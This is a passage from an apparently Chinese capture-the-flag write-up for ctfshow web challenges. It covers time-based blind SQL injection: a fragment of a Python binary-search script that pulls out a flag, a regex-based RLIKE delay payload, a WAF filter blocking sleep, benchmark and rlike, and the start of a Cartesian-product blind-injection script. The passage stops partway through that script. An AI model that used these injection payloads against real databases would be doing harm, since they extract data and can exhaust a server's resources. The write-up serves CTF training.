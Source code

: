 ```python
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break

    print("[*]Result : "+result)

# ctfshow{d317911f-ac1e-4160-be70-47d01a0f2f45}

```

乱码的话，多跑几次就好了

另一种方法就是通过正则 DOS RLIKE注入

利用 SQL 多次计算正则消耗计算资源产生延时效果，与 benchmark 原理类似，通过 rpad 或 repeat 构造长字符串，以计算量大的 pattern。

```
debug=1&ip=repeat(rpad('a', 999999, 'a'),16) rlike concat(repeat('(a.*)+',14), 'b')
```





#### web219

```
查询语句

       where id = ($id);
      
返回逻辑

    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark|rlike/i',$str);
    }   
      
```

继续使用笛卡尔积盲注即可

```python
import requests
import time

url = "http://61d55d79-847e-43d7-80e4-c221ceae9f4a.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1

        # payload = "select table_name from information_schema.tables where table_schema=database() limit 0,1"
```